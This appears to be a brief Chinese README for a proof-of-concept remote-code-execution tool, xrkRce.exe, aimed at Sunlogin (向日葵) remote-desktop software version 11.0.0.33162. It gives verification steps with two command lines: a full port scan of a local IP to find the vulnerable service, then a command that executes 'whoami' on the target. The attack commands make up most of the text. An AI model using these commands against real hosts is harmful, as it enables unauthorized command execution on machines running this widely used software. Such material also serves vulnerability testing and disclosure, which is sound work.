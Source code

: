 向日葵版本：Ver.11.0.0.33162

验证过程（windows11）：

1. 本机安装向日葵后启动软件；  
![1](1.jpg)
2. CMD输入命令扫描端口，判断是否可能存在Rce；（ xrkRce.exe -h 192.168.99.38 -t scan -p 1-65535 ）
4. 可能存在会返回端口，如：60029；
5. CMD输入命令（xrkRce.exe -h 192.168.99.38 -t rce -p 60029 -c "whoami"），发现命令执行。

